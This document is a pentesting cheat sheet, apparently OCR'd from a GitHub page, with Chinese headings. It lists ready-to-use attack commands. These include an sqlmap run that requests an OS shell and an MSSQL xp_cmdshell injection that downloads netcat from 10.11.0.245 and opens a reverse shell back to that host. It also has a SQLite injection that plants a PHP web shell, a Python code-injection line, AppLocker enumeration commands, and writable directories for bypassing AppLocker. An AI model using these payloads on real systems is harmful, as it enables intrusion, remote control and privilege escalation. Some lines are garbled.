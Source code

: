 ```text
# sqlmap;post-捕获请求通过Burp代理通过保存项目到文件.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```text
# 当xp_cmdshell可用时，netcat通过mssql注入反向shell
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

**SQLite注入到Shell或后门**

```text
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

**ms sql控制台**

```text
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

**Upgradig非交互式Shell**

```text
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

**Python输入代码注入**

```text
__import__('os').system('id')
```

**本地枚举和权限升级**

**检查AppLocker策略**

```text
Get-AppLockerPolicy -Local).RuleCollections
Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
```

**Applocker:可写的Windows目录**

```text
# list from https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

